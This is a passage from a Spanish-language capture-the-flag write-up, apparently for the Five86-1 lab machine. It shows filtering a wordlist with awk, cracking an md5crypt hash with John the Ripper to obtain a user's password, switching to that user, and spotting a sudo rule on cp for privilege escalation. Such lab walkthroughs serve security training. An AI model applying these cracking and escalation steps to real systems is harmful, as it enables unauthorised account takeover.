 Vamos a hacer mejor y mas pequeño el diccionario

```bash
❯ wc -l dictionary.txt
60466176 dictionary.txt
```

```bash
❯ cat dictionary.txt | awk '/a/&&/e/&&/f/&&/h/&&/r/&&/t/' > small.txt
❯ wc -l small.txt
16435440 small.txt
```

Vamos a usar `john`

```bash
❯ john --wordlist=small.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fatherrrrr       (douglas)
1g 0:00:01:04 DONE (2023-03-20 13:47) 0.01558g/s 92253p/s 92253c/s 92253C/s fatherraff..fatherttae
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

`douglas:fatherrrrr`

Vamos a autenticarnos en el panel de `login` que vimos

![](/assets/images/vh-writeup-five86/Web6.png)

Y bueno pues no hay nada asi que vamos a migrar al usuario

## Shell como douglas

```bash
www-data@five86-1:/var/www/html/reports$ su douglas
Password: 
douglas@five86-1:/var/www/html/reports$ whoami
douglas
douglas@five86-1:/var/www/html/reports$ id
uid=1005(douglas) gid=1005(douglas) groups=1005(douglas)
douglas@five86-1:/var/www/html/reports$ 
```

Podemos ejecutar el comando `cp` como el usuario `jen` sin proporcionar contraseña
